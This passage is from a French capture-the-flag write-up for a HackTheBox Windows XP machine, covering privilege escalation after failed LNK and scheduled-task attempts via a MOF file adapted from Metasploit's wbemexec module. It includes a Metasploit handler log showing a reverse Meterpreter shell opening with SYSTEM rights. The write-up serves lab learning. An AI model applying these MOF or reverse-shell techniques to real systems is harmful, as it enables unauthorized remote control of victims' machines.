 ```plain
/Software/Microsoft/Windows/CurrentVersion/Explorer/RecentDocs/7,BINARY,2%00 %00f%00o%00r%00 %00t%00h%00e%00 %00p%00r%00i%00c%00e%00 %00o%00f%00 %001%00!%00!%00!%00!%00%00%00|%002%00%00%00%00%00%00%00%00%00%00%002 for the price of 1!!!!.lnk%00%00P%00%03%00%04%00%EF%BE%00%00%00%00%00%00%00%00%14%00%00%002%00 %00f%00o%00r%00 %00t%00h%00e%00 %00p%00r%00i%00c%00e%00 %00o%00f%00 %001%00!%00!%00!%00!%00.%00l%00n%00k%00%00%00%2C%00%00%00,
```

Malheureusement tout ça ne nous ouvre pas la porte du système... so what ? Écraser une DLL ou un exe ? Placer un fichier .job ? Sous Linux ça aurait été vite fait de récupérer une clé SSH mais là je sèche un peu.  

Sur le forum de HTB certains ont mentionné *Stuxnet*. Ce malware est bien connu pour avoir exploité des failles dans la gestion des shortcuts (fichier .LNK). Metasploit dispose de plusieurs modules pour cela mais après avoir placé des LNK piégés dans le bureau de l'administrateur, force est de constater que ce n'est pas le chemin attendu.  

Je suis alors retourné à mon idée de fichier job. Ces fichiers présents dans *c:\windows\tasks* sont des fichiers binaires qui contiennent le nom de l'utilisateur, le nom de la machine, la commande à exécuter et la date, l'heure et la fréquence de répétition de la tâche.  

J'ai reconfiguré un Windows XP dans une VM pour qu'il ait un utilisateur Administrateur avec le nom de machine DROPZONE, créé une tache appelant un reverse Meterpreter puis recopié le job et l'exe sur Dropzone... sans résultats. Je ne suis pas expert en administration Windows mais à ce que j'ai pu lire il peut être nécessaire que la machine redémarre pour voir le fichier job :(   

Master Of Flags
---------------

Finalement j'ai eu un conseil de *Elpugo* de me pencher en détails sur les fichiers MOF... Kezako ?  

J'ai pas eu besoin d'aller beaucoup plus loin que ma boîte mail pour avoir des infos sur le sujet car [ça faisait l'objet d'une newsletter HSC](http://shootingsawk.lescigales.org/HSC/lsv_WMI_MOF.txt).  

Pour résumer, les fichiers MOF permettent à des administrateurs de définir des taches qui seront lancées automatiquement lorsqu'un événement a lieu sur la machine.  

On trouve [différents exemples](https://poppopret.blogspot.com/2011/09/playing-with-mof-files-on-windows-for.html) de fichiers MOF qui permettent normalement l'exécution de commandes... mais tous semble échouer à cause d'une obscure erreur RPC...  

Finalement il a fallut une fois de plus s'en remettre à Metasploit [qui possède un module exploitant les fichiers MOF](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/wbemexec.rb) qui fonctionne parfaitement.  

Il suffit d'extraire le code du MOF dans le module, remplacer les variables, retirer l'échappement des backslashs et après un test local pour valider on passe à l'action :)  

```plain
msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.11:80
[*] Sending stage (179779 bytes) to 10.10.10.90
[*] Meterpreter session 1 opened (10.10.14.11:80 -> 10.10.10.90:1052) at 2018-06-12 17:04:50 +0200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 2000 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 7CF6-55F6

```